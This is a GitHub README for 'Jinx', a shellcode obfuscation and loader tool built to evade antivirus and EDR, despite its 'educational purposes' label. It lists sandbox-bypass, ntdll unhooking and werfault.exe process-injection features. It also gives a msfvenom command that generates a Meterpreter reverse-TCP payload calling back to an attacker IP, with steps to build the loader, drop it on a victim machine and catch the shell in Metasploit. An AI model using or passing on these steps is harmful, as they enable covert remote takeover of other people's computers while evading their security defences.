 # Jinx (For Educational Purposes Only)
## Shellcode obfuscation tool to avoid AV/EDR.
[![Python 3.10.4](https://img.shields.io/badge/Python-3.10.4-yellow.svg)](https://www.python.org/) [![C++ 14](https://img.shields.io/badge/C%2B%2B-14-blue)](https://visualstudio.microsoft.com/vs/features/cplusplus/) [![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)

## Features
- Custom Sleep Function - to bypass sandbox
- Obfuscation - base64 encoding and xor encryption with randomly generated key
- DLL Unhooking - full unhook of ntdll.dll
- Process Injection - injecting the payload to werfault.exe

## Requirements
Jinx requires [Python3](https://www.python.org/) and a C++ compiler to run (we will be using [Visual Studio](https://visualstudio.microsoft.com/vs/features/cplusplus/))

## Usage
In this demonstration we will generate a shellcode using msfvenom in our kali machine:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Attacker IP> LPORT=1337 -f raw -o shellcode
```

Next we will use the obfuscator.py tool to obfuscate the shellcode:
```bash
python3 obfuscator.py <Path to the shellcode>/shellcode
```
Our shellcode then be obfuscated and saved in - obfuscatedPayload.bin with the key - key.bin.

Open Visual Studio create a project and import the files as follow:

- Headers Files > right click > Add > Existing Item > (base64.h, ntdll.h, resource.h)
- Resource Files > right click > Add > Existing Item > (key.bin, obfuscatedPayload.bin)
- Source Files > right click > Add > Existing Item > (base64.cpp, main.cpp, ntdll.cpp)

Build The project and drop the executable on the victim's machine.

On the attacker's machine use metasploit's multi/handler on port 1337 and on the victim's machine execute Jinx.

## Authors and acknowledgment
[RonKon](https://github.com/RonKonis) - Development
<br>
[dkonis](https://github.com/dkonis) - Research & Development
<br>
[SheL3G](https://github.com/SheL3G) - Research

## License
Distributed under the MIT License. See LICENSE.txt for more information.
